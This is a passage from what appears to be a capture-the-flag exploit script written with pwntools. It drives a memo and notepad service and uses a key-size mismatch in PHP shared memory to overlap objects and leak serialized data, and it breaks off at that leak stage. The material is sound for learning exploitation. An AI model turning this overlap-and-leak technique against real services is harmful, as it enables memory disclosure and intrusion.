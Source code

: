     r.sendlineafter(b"> ", b"6")
    r.sendlineafter(b"id: ", id)
    r.sendlineafter(b"Size: ", size)


def edit_memo(r, content):
    r.sendlineafter(b"> ", b"7")
    r.sendlineafter(b"contents: ", content)


def view_memo(r):
    r.sendlineafter(b"> ", b"8")


def view_note(r, id):
    r.sendlineafter(b"> ", b"4")
    r.sendlineafter(b": ", id)


r = run()

# overlap this memo with the notepad
# because key_t is int while int in php are 64 bit
# so 2**32-1 and (2**32 + (2**32-1)) are the same

create_memo(r)

create_notepad(r)

create_note(r, b"13", b"A" * 50)

# memo and notepad are overlapping, so we can get the view of the
# serialized notepad by viewing the memo

view_memo(r)

data = r.recvuntil(b"1.", drop=True)

shm_object = ShmObject(
    data[:8],
    u64(data[8:16]),
    u64(data[16:24]),
    u64(data[24:32]),
    u64(data[32:40]),
    data,
)

log.info(shm_object)

shm_chunk = shm_object.search_key(13)
